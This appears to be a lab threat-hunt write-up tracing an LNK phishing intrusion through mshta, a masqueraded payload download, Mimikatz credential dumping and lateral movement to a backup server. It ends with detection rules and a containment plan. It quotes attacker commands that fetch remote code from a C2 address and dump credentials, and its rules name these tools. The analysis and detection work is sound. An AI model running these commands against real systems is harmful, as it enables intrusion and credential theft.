









---
hide:
  - toc
---

<div class="soc-hero">

# 🏹 Task 6: Zero Tolerance

<div class="soc-pill-row" style="margin-bottom: 1.2rem;">
  <span class="soc-pill">Alert: Credential Dumping</span>
  <span class="soc-pill">Vector: LNK Phishing</span>
  <span class="soc-pill">Tactic: Lateral Movement</span>
</div>

<span class="soc-muted">
A full threat hunt across the network. I traced the initial compromise to a malicious LNK file, followed the attacker's use of a LOLBin (`mshta.exe`) and found a script staging backup data for theft.
</span>

</div>

!!! abstract "Summary"
    **What happened:** `jp.brown` opened `TravisClart_Resume.pdf.lnk`, which ran `mshta.exe` to fetch an HTA from `10.10.14.174`. The attacker downloaded a fake `RuntimeBroker.exe`, dumped credentials with Mimikatz, moved to `BKUP-SRV01` and ran a script that gathered `.bak`, `.sql` and `.mdb` files into one archive.

    **Impact:** Domain credentials exposed; database backups staged for exfiltration.

    **Key IOCs:** `10.10.14.174` · `TravisClart_Resume.pdf.lnk` · `KsWLx.hta` · `C:\Windows\Temp\RuntimeBroker.exe` · `Setup-BackupServer.ps1`

!!! failure "🚨 Incident Scope"
    **Trigger:** Splunk detected suspicious PowerShell execution and AV tampering attempts.
    
    **Beachhead Host:** `JP-BROWN-WS`
    **Attacker C2:** `10.10.14.174`
    
    **Investigation Goal:** Reconstruct the attack chain from the initial download to the final data exfiltration.

---

## 🎣 Phase 1: Initial Access (Spearphishing)

First I needed to find *how* the attacker got in, so I looked at host activity and browser history.

=== "1. Host Identification"
    **Query:** I ranked hosts by Sysmon event volume to find the likely first victim.
    
    **Result:** `JP-BROWN-WS` accounts for 72% of the traffic, making it my primary suspect.
    
    

=== "2. Browser Forensics"
    **Tool:** SQLite Viewer
    **Evidence:** Analyzing the browser's `Downloads` database revealed a suspicious LNK file download.
    
    * **File:** `TravisClart_Resume.pdf.lnk`
    * **Path:** `C:\Users\jp.brown\Downloads\`
    
    

=== "3. Splunk Verification"
    **Query:** `index=* *TravisClart_Resume*`
    
    Splunk confirmed the creation of the file on disk.
    
    

=== "4. MITRE Context"
    **Technique:** T1204.002 (Malicious File)
    
    The attacker relies on the user executing a file disguised as a resume to initiate the infection chain.
    
    

---

## 📡 Phase 2: Execution & C2

Once the user clicked the file, the attacker executed code to establish a connection.

=== "1. The LOLBin (Mshta)"
    **Technique:** T1218.005 (Mshta)
    
    The LNK file triggered a "Living-off-the-Land" binary to execute a remote script from memory.
    
    **Command:**
    ```powershell
    "C:\Windows\System32\mshta.exe" http://10.10.14.174:80/KsWLx.hta
    ```
    
    

=== "2. C2 Download"
    **Masquerading:** The attacker downloaded a payload named `RuntimeBroker.exe` to `C:\Windows\Temp`.
    
    **Splunk Log:**
    ```text
    DownloadFile('http://10.10.14.174:80/RuntimeBroker.exe', 'C:\Windows\Temp\RuntimeBroker.exe')
    ```
    
    

---

## 🔐 Phase 3: Credential Access

With a foothold on the workstation, the attacker dumped credentials to move deeper into the network.

=== "1. Mimikatz Detection"
    **Alert:** I found multiple command lines referencing `Invoke-Mimikatz`.
    
    **Stats:** The logs show a clear spike in `mimikatz.exe` and `cmd.exe` activity.
    
    

=== "2. Command Analysis"
    **Specific Command:**
    ```powershell
    Invoke-Mimikatz -DumpCreds
    ```
    
    This command dumps plain-text passwords and hashes from memory (LSASS).
    
    

---

## 📤 Phase 4: Lateral Movement

Finally, the attacker moved from `JP-BROWN-WS` to the backup server `BKUP-SRV01`.

=== "1. Pivot to Backup"
    **Target Host:** `BKUP-SRV01`
    
    The logs show commands running on the backup server as `bkup-svc`. The most likely explanation is that this service account's credentials were among those dumped by Mimikatz.
    
    

=== "2. Exfiltration Script"
    **Script:** `C:\Windows\Temp\Setup-BackupServer.ps1`
    
    The attacker used this script to collect files with sensitive extensions (`.bak`, `.sql`, `.mdb`) and stage them in a temporary DAT file:
    `C:\Users\bkup-svc\AppData\Local\Temp\sysbackup_20251114.dat`

---

## 🔔 Detection Opportunities

!!! example "Detections I would add"
    These are example queries; index and field names depend on your environment.

    === "mshta loading a remote script"
        ```yaml
        title: Mshta executing remote HTA
        logsource: { product: windows, category: process_creation }
        detection:
          selection:
            Image|endswith: '\mshta.exe'
            CommandLine|contains: ['http://', 'https://']
          condition: selection
        level: high
        ```

    === "System binary name in wrong folder"
        ```spl
        index=sysmon EventCode=1 Image="*\\RuntimeBroker.exe"
            NOT Image="C:\\Windows\\System32\\RuntimeBroker.exe"
        | table _time host User Image ParentImage CommandLine
        ```
        Catches masquerading (T1036.005), such as `RuntimeBroker.exe` running from `C:\Windows\Temp`.

    === "Mimikatz in PowerShell"
        ```spl
        index=* (EventCode=4104 OR EventCode=1)
            ("Invoke-Mimikatz" OR "sekurlsa::" OR "-DumpCreds")
        | table _time host user CommandLine ScriptBlockText
        ```
        Event 4104 is PowerShell script block logging.

---

## 🛡️ Case Verdict

<div class="soc-grid">
  <div class="soc-card soc-case soc-accent-red">
    <div class="soc-card-body">
      <div class="soc-card-title">Major Breach Confirmed</div>
      <ul>
        <li><strong>Attacker C2:</strong> 10.10.14.174</li>
        <li><strong>Lateral Move:</strong> JP-BROWN-WS &rarr; BKUP-SRV01 (as bkup-svc)</li>
        <li><strong>Data Risk:</strong> Database backups staged in <code>sysbackup_20251114.dat</code></li>
      </ul>
    </div>
  </div>

  <div class="soc-card soc-case soc-accent-green">
    <div class="soc-card-body">
      <div class="soc-card-title">Containment Plan</div>
      <ul>
        <li>Isolate <code>JP-BROWN-WS</code> and <code>BKUP-SRV01</code>.</li>
        <li>Reset <code>bkup-svc</code> and every account logged on to the workstation, since Mimikatz exposes them all.</li>
        <li>Block <code>10.10.14.174</code> and check whether the staged <code>.dat</code> file left the network.</li>
        <li>Block <code>mshta.exe</code> for standard users and stop <code>.lnk</code> files arriving by download or email.</li>
      </ul>
    </div>
  </div>
</div>

<br>
<center>
  <a href="../task-5-Portal-Drop/" class="soc-btn">← Previous: Task 5</a>
  <a href="../../" class="soc-btn soc-btn-secondary">Return to Dashboard</a>
</center>